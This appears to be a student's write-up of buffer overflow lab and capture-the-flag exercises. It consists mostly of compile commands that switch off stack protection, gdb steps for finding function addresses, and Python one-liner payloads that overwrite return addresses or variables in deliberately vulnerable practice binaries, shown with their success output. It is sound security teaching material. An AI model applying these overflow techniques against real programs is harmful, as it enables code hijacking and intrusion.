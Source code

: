 # bof1

step1:
```bash
seed@68a4b6750ecf:~/seclabs$ gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```

step2:
```bash
seed@68a4b6750ecf:~/seclabs$ gdb -q bof1.out
```

step3:
```bash
gdb-peda$ disas secretFunc
```

step4:
```bash
save address secretFunc: 0x0804846b
```

step5:
```bash
seed@68a4b6750ecf:~/seclabs$ python -c "print('a'*204 +'\x6b\x84\x04\x08')" | ./bof1.out
```
**result:** <br>
Missing arguments  
Enter text:Congratulation!  
Segmentation fault  

# bof2
step1 and step2  similar bof1

step3:
```bash
seed@68a4b6750ecf:~/seclabs$ python -c "print('a'*40 + '\xef\xbe\xad\xde')" | ./bof2.out
```

**result:**   
[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭ�    
[check] 0xdeadbeef   
Yeah! You win!   

# bof3
step1 and step2  similar bof1

step3:
```bash
gdb-peda$ disas shell
```

step4:
```bash
save address shell: 0x0804845b 
```

steo5:
```bash
seed@68a4b6750ecf:~/seclabs$ python -c "print('a'*128 + '\x5b\x84\x04\x08')" | ./bof3.out
```

**result:**  
You made it! The shell() function is executed

# ctf

step1 and step2  similar bof1

step3:
```bash
gdb-peda$ disas myfunc
```

step4:
```bash
save address myfunc: 0x0804851b ,save address myfunc: 0x080483e0
```

step5:
```bash
seed@ac432deba69f:~/seclabs$ touch flag1.txt | ./ctf.out $(python -c "print('a'*104 + '\x1b\x85\x04\x08'+ '\xe0\x83\x04\x08' + '\x11\x12\x08\x04'+'\x62\x42\x64\x44')")
```

**result:**  
myfunc is reachedYou got the flag

# flag

step1 and step2  similar bof1

step3:
```bash
seed@ac432deba69f:~/seclabs$ ./flag.out $(python -c "print('a'*17)")
```

**result:**  
Modified

# pattern

step1 and step2 similar bof1

step3:
```bash
seed@ac432deba69f:~/seclabs$ ./pattern.out $(python -c "print('a'*16 + '\x62\x42\x61\x41')")
```
**result:**  
Correct pattern

# flow

step1 and step2 similar bof1

step3:
```bash
gdb-peda$ disas change
```

step4:
```bash
save address change: 0x0804843b
```
step5:
```bash
seed@5528c08120d5:~/seclabs$ ./flow.out $(python -c "print('a'*20 + '\x3b\x84\x04\x08')")
```
**result:**  
code flow has been modified  
Segmentation fault
